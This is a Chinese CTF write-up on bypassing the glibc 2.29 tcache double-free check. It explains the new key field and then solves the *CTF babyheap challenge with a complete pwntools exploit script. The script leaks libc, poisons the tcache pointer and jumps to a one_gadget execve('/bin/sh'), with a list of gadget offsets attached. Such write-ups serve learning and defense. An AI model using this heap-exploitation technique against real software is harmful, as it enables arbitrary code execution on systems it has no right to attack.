



# libc2.29_tcache_doublefree

\* CTF上遇到的题目。给的是最新版的 libc2.27 ，新增了在 libc2.29 上的 tcache double free 检测。

## tcache 新增防护机制

### tcache_entry

Tcache_entry 结构体新增了指针 key 放在 bk 位，作用是检测 tcache double free ：

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```

### tcache_put

用 tcache_put() 放堆进 tcache bin 时，tcache_perthread_struct 地址被写入 e->key ，即 tcache 结构体堆地址写入释放堆的 bk 位：

```c
/* Caller must ensure that we know tc_idx is valid and there's room
   for more chunks.  */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache;//写入tcache_perthread_struct地址
	//定义：static __thread tcache_perthread_struct *tcache = NULL;
  
  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

### tcache_get

用 tcache_get() 取 bin 中堆时，将该区域置零：

```c
/* Caller must ensure that we know tc_idx is valid and there's
   available chunks to remove.  */
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  e->key = NULL;
  return (void *) e;
}
```



### free

free() 函数中检查：检测 ``e->key == tcache`` ，如果满足条件就遍历 tcache 查看是否有相同堆块，有则弹出错误 ``free(): double free detected in tcache 2`` ：

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);
    if (tcache != NULL && tc_idx < mp_.tcache_bins)
      {
	/* Check to see if it's already in the tcache.  */
	tcache_entry *e = (tcache_entry *) chunk2mem (p);

	/* This test succeeds on double free.  However, we don't 100%
	   trust it (it also matches random payload data at a 1 in
	   2^<size_t> chance), so verify it's not an unlikely
	   coincidence before aborting.  */
	if (__glibc_unlikely (e->key == tcache))
	  {
	    tcache_entry *tmp;
	    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
	    for (tmp = tcache->entries[tc_idx];
		 tmp;
		 tmp = tmp->next)
	      if (tmp == e)
		malloc_printerr ("free(): double free detected in tcache 2");
	    /* If we get here, it was a coincidence.  We've wasted a
	       few cycles, but don't abort.  */
	  }

	if (tcache->counts[tc_idx] < mp_.tcache_count)
	  {
	    tcache_put (p, tc_idx);
	    return;
	  }
      }
  }
#endif
```

### 绕过思路

> FROM:[tcache poisoning在glibc2.29中的利用小结 - 先知社区](https://xz.aliyun.com/t/7292)

新增保护主要还是用到`e->key`这个属性，因此绕过想绕过检测进行 double free ，这里也是入手点。

绕过思路有以下两个：

1. 使 ``e->key`` 失效（置零）：

   如果有UAF漏洞或堆溢出，可以修改`e->key`为空，或者其他非`tcache_perthread_struct`的地址。这样可以直接绕过`_int_free`里面第一个if判断。不过如果UAF或堆溢出能直接修改chunk的fd的话，根本就不需要用到double free了。

2. 使检测机制发生错误：

   利用堆溢出，修改chunk的size，最差的情况至少要做到 off by null 。留意到`_int_free`里面判断当前chunk是否已存在 tcache 的地方，它是根据 chunk 的大小去查指定的 tcache 链，由于我们修改了 chunk 的 size ，查找 tcache 链时并不会找到该 chunk ，满足 free 的条件。虽然 double free 的 chunk 不在同一个 tcache 链中，不过不影响我们使用 tcache poisoning 进行攻击。

## *CTF babyheap

程序 delete 函数 UAF ：

```c
void delete()
{
  int v0; // [rsp+Ch] [rbp-4h]

  puts("input index");
  v0 = readInt();
  if ( v0 < 0 || v0 > 15 || !pools[v0] )        // 存在指针
  {
    puts("bye!");
    exit(0);
  }
  free((void *)pools[v0]);                      // UAF
}
```

限制堆大小在 0xF~0x60 范围，提供一次申请&写入 0x400 的机会。一开始用这个 0x400 只是泄露地址，后续因为无法控制 tcachebin 的 fd 指针，而无法进行下去。

```c
ssize_t edit()
{
  int index; // [rsp+Ch] [rbp-4h]

  puts("input index");
  index = readInt();
  if ( index < 0 || index > 15 || !pools[index] )
  {
    puts("bye!");
    exit(0);
  }
  puts("input content");
  return read(0, (void *)(pools[index] + 8LL), (unsigned int)(sizes[index] - 8));// 从bk开始写入
}
```

最后发现还需要用这个 0x400 控制 tcache bin 的 fd 。也就是这个 0x400 需要申请在 tcache bin 中的空闲空间，但是 tcache bin 在申请大堆块时，不会被整理后放入 unsorted bin 中，fastbin 等就会，所以利用 UAF 多次释放堆块填满 tcache bin 后，放入到 fastbin 中。由于还要泄露地址，所以 fastbin 中要两个连续堆块，遍历整理是触发 unlink 在 fd 和 bk 处写入 main_arean 地址。



由于申请堆后，马上就写入 name ，且就这一次写入机会，所以要调试找到 main_arean 与目标地址偏移，partly write 将 fd 修改为 目标地址，后续通过申请 tcache 对应大小就能够将堆分配到目标地址：



### EXP

```python
from pwn import *
context(log_level='debug')

# p = process(["/lib/x86_64-linux-gnu/ld-2.27.so", "./pwn"], env={"LD_PRELOAD":"./libc.so.6"})
sh = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(index,size):
	sh.recvuntil(">> \n")
	sh.sendline("1")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
	sh.recvuntil(" size")
	sh.sendline(str(size))
def delete(index):
	sh.recvuntil(">> \n")
	sh.sendline("2")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))	
def edit(index,content):
	sh.recvuntil(">> \n")
	sh.sendline("3")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
	sh.recvuntil("content\n")
	sh.send(content)
def show(index):
	sh.recvuntil(">> \n")
	sh.sendline("4")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
def editname(name):
	sh.recvuntil(">> \n")
	sh.sendline("5")
	sh.recvuntil("ame:\n")
	sh.send(name)
def showname():
	sh.recvuntil(">> \n")
	sh.sendline("6")
add(0,0x20)
add(1,0x30)


for i in range(8):
	delete(0)
	edit(0,p64(0))
for i in range(8):
	delete(1)
	edit(1,p64(0))

gdb.attach(sh)
editname('\x28')
show(0)
addr = u64(sh.recv(6).ljust(8,'\x00'))
print 'addr:'+hex(addr)
libc_base = addr - 0x3ebc28
print 'libc_base:'+hex(libc_base)
add(0,0x20)
add(0,0x20)
edit(0,p64(libc_base+0xe5622))
sh.recvuntil(">> \n")
sh.sendline("1")
sh.recvuntil(" index\n")
sh.sendline("2")
sh.recvuntil("input size")
sh.sendline("60")
#attach(sh)
'''
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

'''


sh.interactive()
```

## 参考文章

[tcache poisoning在glibc2.29中的利用小结](https://xz.aliyun.com/t/7292)

[i春秋2020新春战役PWN之document(绕过tcache的double free检测)](https://blog.csdn.net/seaaseesa/article/details/104531134/)

[Tcache Attack学习记录](https://www.cnblogs.com/Theffth-blog/p/12790720.html)

